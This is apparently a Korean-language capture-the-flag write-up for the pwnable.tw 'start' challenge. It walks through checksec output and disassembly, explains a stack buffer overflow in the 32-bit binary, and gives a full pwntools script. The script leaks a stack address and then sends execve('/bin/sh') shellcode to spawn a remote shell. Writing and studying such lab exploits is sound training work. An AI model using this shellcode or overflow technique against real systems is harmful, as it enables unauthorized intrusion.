 # start

Just a start.

`nc chall.pwnable.tw 10000`

[start](https://pwnable.tw/static/chall/start)

---

```
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

32비트 ELF 실행파일로 정적으로 링크되어 있고 디버깅 정보가 그대로 붙어있다.

```
pwndbg> checksec
[*] '/home/jhyun/Desktop/Hacking/pwnable.tw/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

메모리 보호기법은 따로 걸려있지 않다.

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08048060  _start
0x0804809d  _exit
0x080490a3  __bss_start
0x080490a3  _edata
0x080490a4  _end
0xf7ffc820  __vdso_clock_gettime
0xf7ffcd10  __vdso_gettimeofday
0xf7ffcfa0  __vdso_time
0xf7ffcfe0  __kernel_vsyscall
0xf7ffd000  __kernel_sigreturn
0xf7ffd010  __kernel_rt_sigreturn
```

`_start`와 `_exit`가 아마 작성한 코드이고 나머지는 컴파일러가 생성한 코드인것 같다.

```
pwndbg> disass _start
Dump of assembler code for function _start:
   0x08048060 <+0>:	push   esp
   0x08048061 <+1>:	push   0x804809d
   0x08048066 <+6>:	xor    eax,eax
   0x08048068 <+8>:	xor    ebx,ebx
   0x0804806a <+10>:	xor    ecx,ecx
   0x0804806c <+12>:	xor    edx,edx
   0x0804806e <+14>:	push   0x3a465443
   0x08048073 <+19>:	push   0x20656874
   0x08048078 <+24>:	push   0x20747261
   0x0804807d <+29>:	push   0x74732073
   0x08048082 <+34>:	push   0x2774654c
   0x08048087 <+39>:	mov    ecx,esp
   0x08048089 <+41>:	mov    dl,0x14
   0x0804808b <+43>:	mov    bl,0x1
   0x0804808d <+45>:	mov    al,0x4
   0x0804808f <+47>:	int    0x80
   0x08048091 <+49>:	xor    ebx,ebx
   0x08048093 <+51>:	mov    dl,0x3c
   0x08048095 <+53>:	mov    al,0x3
   0x08048097 <+55>:	int    0x80
   0x08048099 <+57>:	add    esp,0x14
   0x0804809c <+60>:	ret    
End of assembler dump.
```

C로 짜서 컴파일 한게 아니라 어셈블리로 작성한 다음 어셈블러로 실행 파일을 만든것 같다. 별다른 함수 호출이 없고 [시스템 콜](http://shell-storm.org/shellcode/files/syscalls.html)로 진행한다. 

1. $ecx = $esp ("Let's start the CTF:")
2. sys_write(STDOUT, $ecx, 0x14)
3. sys_read(STDIN, $ecx, 0x3C)

위 설명처럼 `sys_write`로 쓸말 출력하고, `sys_read`로 표준 입력에서 입력을 받는다. 이때 입력값의 크기가 `0x14`보다 크기 때문에 버퍼 오버플로우가 발생해 실행흐름을 바꿀 수 있다.

`sys_execve` 시스템 콜로 `/bin/sh`을 실행하는 쉘코드를 만들던지 주워다 쓰던지 일단 가지고 온다. 난 [여기서](http://shell-storm.org/shellcode/files/shellcode-811.php) 가져왔다.

리턴 주소를 `*_start+39`로 덮어 씌워서 스택 주소를 유출시키고, 유출시킨 스택 주소를 바탕으로 쉘코드를 다시 호출하면 된다.

```python
from pwn import *
import struct

r = remote("chall.pwnable.tw", 10000)
# r = process("/home/jhyun/Desktop/Hacking/pwnable.tw/start")
# context.log_level='debug'
# gdb.attach(r, 'b* 0x08048097')

print r.recv()

payload = 'A' * 20 + '\x87'

r.send(payload)

s = r.recv()

addr = struct.unpack('<I', s[0:4])[0]

print "OUTPUT :", repr(s), ",ADDRESS : ", hex(addr)

payload = 'A'*20
payload += p32(addr + 0x14)
payload += '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

r.send(payload)

r.interactive()
```